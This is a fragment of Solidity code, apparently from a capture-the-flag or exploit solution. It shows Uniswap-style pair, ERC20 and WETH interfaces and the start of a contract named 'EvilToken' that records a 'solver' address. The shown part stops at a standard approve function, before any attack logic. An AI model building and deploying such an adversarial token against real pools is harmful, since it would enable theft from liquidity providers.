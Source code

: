 ```solidity
        uint amount1Out,
        address indexed to
    );
    event Sync(uint112 reserve0, uint112 reserve1);

    function MINIMUM_LIQUIDITY() external pure returns (uint);
    function factory() external view returns (address);
    function token0() external view returns (address);
    function token1() external view returns (address);
    function getReserves() external view returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
    function price0CumulativeLast() external view returns (uint);
    function price1CumulativeLast() external view returns (uint);
    function kLast() external view returns (uint);

    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function skim(address to) external;
    function sync() external;

    function initialize(address, address) external;
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function transferFrom(address, address, uint256 amount) external returns (bool);
}

interface IWETH is IERC20 {
    function withdraw(uint256) external;
    function deposit() external payable;
}

contract EvilToken {
    string constant public name = "Token";
    string constant public symbol = "T";
    uint8 constant public decimals = 18;
    uint constant public totalSupply = 100 ether;
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    address solver;

    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);

    constructor(address solver_) {
        solver = solver_;
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function transfer(address to, uint value) public returns (bool) {
        _transfer(msg.sender, to, value);
        return true;
    }

    function approve(address spender, uint value) public returns (bool) {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
```